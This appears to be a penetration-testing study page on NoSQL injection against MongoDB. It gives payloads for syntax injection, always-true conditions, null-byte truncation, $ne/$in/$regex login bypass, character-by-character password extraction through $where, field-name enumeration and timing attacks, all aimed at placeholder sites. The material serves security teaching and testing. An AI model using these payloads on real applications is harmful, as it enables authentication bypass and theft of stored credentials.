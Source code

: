 # NoSQL injection

<details>

<summary>Introduction to NoSQL databases</summary>

**NoSQL databases**

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

**NoSQL database models**

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

</details>

### <mark style="color:yellow;">Types of NoSQL injection</mark> <a href="#types-of-nosql-injection" id="types-of-nosql-injection"></a>

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2. Operator injection - when you can use NoSQL query operators to manipulate queries.

## <mark style="color:yellow;">NoSQL syntax injection</mark> <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'` -> `this.category == '''`
  * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, e.g.: `\'` -> `this.category == '\''`
  * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### <mark style="color:yellow;">**Confirming conditional behavior**</mark>

```markdown
# False condition
' && 0 && 'x
' && '1'=='2

# True condition
' && 1 && 'x 
' && '1'=='1
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.

### <mark style="color:yellow;">**Overriding existing conditions**</mark>

```markdown
# Always true: 
'||1||'
'||'1'=='1'

# Inject: fizzy'||1||'
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27

# Back-end code
this.category == 'fizzy'||1||''
```

The modified query returns all items (all the products in any category).

{% hint style="warning" %}
**Warn**: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.
{% endhint %}

**Null character**

MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.

```markdown
# Back-end code
this.category == 'fizzy' && this.released == 1

# Inject null char
https://insecure-website.com/product/lookup?category=fizzy'%00

# Back-end code result [removes the req for the released field to be set to 1]
this.category == 'fizzy'\u0000' && this.released == 1
```

## <mark style="color:yellow;">NoSQL operator injection</mark>

<details>

<summary>Examples of MongoDB query operators</summary>

* `$where` - Matches documents that satisfy a JavaScript expression.

<!---->

* `$ne` - Matches all values that are not equal to a specified value.

<!---->

* `$in` - Matches all of the values specified in an array.

<!---->

* `$regex` - Selects documents where values match a specified regular expression.



MongoDB Query and Projection Operators: [https://www.mongodb.com/docs/manual/reference/operator/query/](https://www.mongodb.com/docs/manual/reference/operator/query/)

</details>

* JSON example:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`

***

* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.

### <mark style="color:yellow;">**Testing**</mark>

```markdown
# Login bypass
{"username":"bob","password":{"$ne":"invalid"}}

# Guess with usernames list
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

# Guess with regex
{"username":{"$regex":"^adm"},"password":{"$ne":""}}
```

**Other tests**

* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.

## <mark style="color:yellow;">Extract data</mark>

**INSIDE $WHERE**

* Consider `https://insecure-website.com/user/lookup?username=admin`
* This results in the following NoSQL query of the `users` collection: `{"$where":"this.username == 'admin'"}`
* As the query uses the `$where` operator, you can attempt to inject JavaScript functions.
  * `admin' && this.password[0] == 'a' || 'a'=='b`
    * This returns the first character of the user's password string. You can go on...
  * `admin' && this.password.match(/\d/) || 'a'=='b`
    * Identify whether the password contains digits

***

**INJECT OPERATOR (where)**

* Consider `{"username":"wiener","password":"peter"}`
* Add `$where` operator as an additional parameter. Send one true request and one false request.
  * `{"username":"wiener","password":"peter", "$where":"0"}`
  * `{"username":"wiener","password":"peter", "$where":"1"}`
  * Different responses? This may indicate that the JavaScript expression in the `$where` clause is being evaluated

***

**INJECT OPERATOR (regex)**

* Consider `{"username":"myuser","password":"mypass"}`
  * `{"username":"myuser","password":"incorrect"}` (incorrect password)
  * `{"username":"admin","password":{"$regex":"^.*"}}`
  * Different responses? The app may be vulnerable
* `{"username":"admin","password":{"$regex":"^a*"}}`
  * Extract data character by character

## <mark style="color:yellow;">Identify field names</mark>

**FIRST WAY**

* Send the payload for an existing field and for a field that doesn't exist.&#x20;
* Example
  * `admin' && this.username!='` (you know `username` field exists)
  * `admin' && this.foo!='` (you know `foo` field doesn't exist)
  * `admin' && this.password!='` (you want identify `password` field)
    * `https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'`
* If the `password` field exists, you'd expect the response to be identical to the response for the existing field (`username`), but different to the response for the field that doesn't exist (`foo`).

***

**SECOND WAY**

* You can inject operator?
  * `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  * This query selects documents where the first key (field) of the document starts with the letter "a". You can extract the field name char by char

<details>

<summary>Example</summary>

```json
{
"username":"test",
"$where":"Object.keys(this)[§1§].match('^.{0}§u§.*')"
}
```

With intruder set: 1 payload: numbers, 2 payload: bruteforce chars.



You have :&#x20;

```json
[
    { "apple": "fruit", "color": "red" },
    { "banana": "fruit", "color": "yellow" },
    { "avocado": "fruit", "color": "green" },
    { "berry": "fruit", "color": "blue" }
]
```

Query

```javascript
db.collection.find({ "$where": "Object.keys(this)[0].match('^.{0}a.*')" })
```

```json
[
    { "apple": "fruit", "color": "red" },
    { "avocado": "fruit", "color": "green" }
]
```

</details>

## <mark style="color:yellow;">Timing based injection</mark>

Database error doesn't cause a difference in the application's response? Trigger a conditional time delay

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. Example `{"$where": "sleep(5000)"}`
3. Identify whether the response loads more slowly

* Trigger a time delay if the password beings with the letter `a`
  * `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  * `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
